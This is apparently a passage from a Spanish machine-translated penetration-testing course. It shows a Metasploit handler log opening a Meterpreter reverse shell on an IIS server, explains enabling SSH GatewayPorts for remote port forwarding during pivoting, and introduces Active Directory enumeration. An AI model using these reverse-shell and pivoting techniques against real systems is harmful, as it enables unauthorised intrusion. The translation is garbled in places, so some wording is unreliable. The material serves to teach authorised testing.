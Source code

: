   Explotación y escalada de privilegios

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:7000 
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:7000 -> 127.0.0.1:51146 ) at 2022-06-22 12:21:25 -0400

(Meterpreter 2)(c:\windows\system32\inetsrv) > getuid
Server username: IIS APPPOOL\DotNetNukeAppPool
```

Una advertencia al método anterior es que, de forma predeterminada, se abre solo permite la conexión a los puertos remotos reenviados desde el propio servidor (localhost). Para permitir esto, debemos editar el`/etc/ssh/sshd_config`Archivo en los sistemas Ubuntu y cambie la línea`GatewayPorts no`a`GatewayPorts yes`, de lo contrario, no podremos obtener una llamada en el puerto que reenviamos en el comando SSH (puerto 443 en nuestro caso). Para hacer esto, necesitaríamos acceso a la raíz SSH al host del que estamos usando para pivotar. A veces veremos esta configuración configurada así, por lo que funciona de inmediato, pero si no tenemos acceso raíz al host con la capacidad de modificar temporalmente el archivo de configuración SSH (y recargarlo para entrar en vigencia usando`service sshd reload`), entonces no podremos realizar el reenvío de puertos de esta manera. Tenga en cuenta que este tipo de cambio abre un orificio de seguridad en el sistema del cliente, por lo que desea limpiarlo con ellos, anotar el cambio y hacer todo lo posible para revertirlo al final de las pruebas. Este[correo](https://www.ssh.com/academy/ssh/tunneling/example)Vale la pena leer para comprender mejor el reenvío remoto SSH.

---

## De un buen comienzo

Ahora que hemos enumerado la red interna atacó nuestro primer host, los privilegios intensos, realizamos la explotación posterior y establecimos nuestros pivotes/formas múltiples para evaluar la red interna, volvamos nuestra atención al entorno publicitario. Dado que tenemos un conjunto de credenciales, podemos realizar todo tipo de enumeración para obtener una mejor disposición de la tierra y buscar vías para el administrador del dominio.